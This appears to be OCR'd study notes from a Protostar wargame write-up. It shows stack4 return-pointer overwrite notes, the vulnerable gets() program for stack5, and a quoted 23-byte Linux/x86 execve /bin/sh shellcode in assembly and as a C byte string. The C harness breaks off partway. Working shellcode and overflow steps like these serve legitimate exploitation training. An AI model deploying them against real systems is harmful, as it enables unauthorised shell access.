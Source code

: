 Notes:
* find out adress of function win
* find out adress of saved **Stack Pointer**
* Offset: 19 Blocks each 4 Bytes
* overwrite **Return Pointer**

## stack5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
>Stack5 is a standard buffer overflow, this time introducing shellcode.
This level is at /opt/protostar/bin/stack5
Hints:
* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.

Shellcode
```asm
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
```